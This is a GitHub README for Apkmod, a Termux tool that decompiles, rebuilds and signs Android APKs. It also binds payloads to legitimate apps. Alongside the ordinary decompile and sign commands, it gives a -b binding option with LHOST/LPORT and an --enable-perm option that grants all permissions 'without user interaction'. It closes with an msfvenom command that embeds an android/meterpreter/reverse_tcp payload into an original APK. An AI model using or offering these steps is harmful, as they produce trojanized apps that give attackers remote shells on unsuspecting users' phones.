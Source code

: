 # Apkmod v2.2


## _Steps For Installation_
1. First goto home directory `cd $HOME`
2.Get git cloner by `apt install git`
3. Get the setup script `git clone https://github.com/mrjarvisofficial/Apkmod`
4. Execute the script `sh setup.sh`
5. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d /path/to/inapp.apk -o /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r /path/to/indirectory -o /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s /path/to/unsignedapp.apk -o /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `apkmod -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
5. Use `-V` to enable verbose output
6. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
7. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`
8. use `--frame-path` to specify framework directory like `--frame-path=/path/to/dir` 
9. Use `--enable-perm` to enable all android permissions in binded or non binded payloads without user interaction. For example :- `apkmod --enable-perm=/path/to/binded.apk -o mybinded.apk`
10. `apkmod --to-java=/path/to/in.apk -o outfolder` will decompile dex to java. Input can be __[.apk,.dex,.zip]__
### Size Comparision (Termux)
Size  | Apkmod  | Third party tools
--- | --- | ---
after installation | Around 100 MB | Around 700-900 MB

#### Why Apkmod is extremely small ?
Because it has Alpine instead of Ubuntu, kali, parrot or other glibc based distros.

#### Binding payload to original APKs
1.Move original apk to your Internal Storage
2.Then use this command
###### Command
```
msfvenom -x /sdcard/(Name of the original apk).apk -p android/meterpreter/reverse_tcp LHOST=(Your IP)  LPORT=4444 -o /sdcard/test1.apk
```
